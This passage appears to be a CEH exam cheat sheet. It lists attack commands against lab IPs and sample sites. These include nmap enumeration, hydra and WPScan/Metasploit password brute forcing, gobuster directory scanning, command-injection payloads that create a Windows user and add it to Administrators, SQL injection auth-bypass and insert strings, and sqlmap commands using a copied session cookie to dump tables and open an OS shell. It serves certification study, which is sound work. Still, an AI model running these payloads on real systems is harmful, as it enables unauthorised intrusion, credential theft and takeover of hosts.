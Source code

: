 ```
						    GET /HTTP/1.0
2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com
3- Crack FTP credentials using nmap-  nmap -p 21 10.10.10.10 (check if it is open or not)
				      ftp 10.10.10.10 (To see if it is directly connecting or needing credentials)
Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file.
Now in terminal type-  hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10

hydra -l user -P passlist.txt ftp://10.10.10.10
```
#  Hacking Web Application
```
1- Scan Using OWASP ZAP (Parrot)- Type zaproxy in the terminal and then it would open. In target tab put the url and click automated scan.
2- Directory Bruteforcing- gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt
3- Enumerate a Web Application using WPscan & Metasploit BFA-  wpscan --url http://10.10.10.10:8080/NEW --enumerate u  (u means username) 
Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin
4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 
5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.
```
#  SQL Injections
```
1- Auth Bypass-  hi'OR 1=1 --
2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--
3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs
4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables
5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)
6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell
6.1 In the shell type-   TASKLIST  (to view the tasks)
6.2 Use systeminfo for windows to get all os version
6.3 Use uname -a for linux to get os version
```